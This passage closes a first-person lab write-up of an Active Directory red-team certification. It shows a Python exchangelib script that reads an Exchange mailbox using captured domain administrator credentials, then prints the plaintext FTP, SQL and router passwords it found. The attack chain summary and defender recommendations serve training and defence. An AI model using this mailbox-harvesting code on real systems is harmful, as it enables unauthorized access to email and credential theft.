For the mailbox read that I preserved in the command transcript, I authenticated to EWS as the Domain Administrator and selected DELEGATE access in exchangelib\. The service account discovered in the scheduled task had an impersonation role, but I did not use that account in the specific Python session shown below:

```
from exchangelib import DELEGATE, Account, Credentials, Configuration, NTLM, Build, Version
creds = Credentials('telecore\\administrator', 'August1990password')
config = Configuration(
    service_endpoint='https://ex-srv.telecore.ad:444/EWS/Exchange.asmx',
    credentials=creds, auth_type=NTLM,
    version=Version(Build(15, 1, 2507, 9))
)
account = Account('administrator@telecore.ad', config=config,
                  autodiscover=False, access_type=DELEGATE)
for item in account.sent.all().order_by('-datetime_received')[:15]:
    print(f'Subject: {item.subject}')
    print(f'Body: {item.text_body[:1000]}')
```

```
SENT: Urgent: New FTP Credentials for Marketing Campaign Server
Server: ftp.globalblast.telecore.ad
Port: 22
Username: mkt_campaign_user
Password: $Mkt_Global@2024!
Path: /incoming/assets/
 
Connection string:
Driver={SQL Server};Server=sql01.telecore.ad;Database=GlobalBlast_Assets;
Uid=db_mkt;Pwd=M$sqlDBpass123;
 
DRAFT: PROD DB Credentials - sqlprod-01
Password: SqlB1lling@2024!
 
DRAFT: Core Router Admin Access
Username: netadmin_jnpr
```

The mailbox content exposed a marketing campaign called GlobalBlast, the production SQL database password SqlB1lling@2024\!, and the router administrator username netadmin\_jnpr\. The sent message also contained FTP credentials and a SQL connection string\. These findings came from the Administrator mailbox accessed through EWS, while the separate automation script illustrated the risk of broad ApplicationImpersonation privileges\.

## What I took away from the assessment

What stayed with me was how ordinary many of the individual weaknesses were\. Internal DNS was overexposed\. A domain account did not require Kerberos preauthentication\. The SQL instance permitted operating system command execution\. A certificate template accepted an enrollee\-supplied identity\. A VM annotation contained guest credentials\. An ASP\.NET application exposed its machine key through file traversal, and operational credentials were placed in the registry, scheduled scripts, and email\. Each issue created leverage for the next\.

A few of the operational failures also mattered\. An SMB transfer was not reliable until the file was compressed and its hash verified\. A certificate could be issued yet still fail authentication because of SID binding\. A ViewState generator that worked on native Windows failed under Mono and Wine\. The first DPAPI approaches produced no password even though the offline recovery sequence eventually did\. In each case, the error messages and observed outputs changed the next move\.

For defenders, the practical control points are equally concrete: restrict AXFR to authorized DNS peers; review Kerberos accounts with preauthentication disabled; limit SQL execution capabilities and service privileges; audit ADCS templates for ESC1 combinations; remove plaintext secrets from VM notes, scripts, and mailboxes; protect ASP\.NET machine keys; use appropriately scoped secrets protection; and restrict Exchange impersonation rights to the mailboxes actually needed\. These are not separate compliance exercises\. They break the connections between mistakes that otherwise form an exploitable path\.

The common thread was the ability to keep moving between security boundaries\. The first path documents a complete route through SQL, SYSTEM, ADCS, ESXi, and VaultVM\. The second shows an independent web foothold, a workable DPAPI recovery, and movement into administrative scripts and sensitive Exchange data\. My later DC and EWS commands reused Administrator credentials from the first path, so I do not describe those particular steps as proof of an entirely separate end\-to\-end Domain Administrator compromise\.

### Certification

I completed the Certified AD Red Team Specialist \(AD\-RTS\) assessment and received the certificate shown below\.


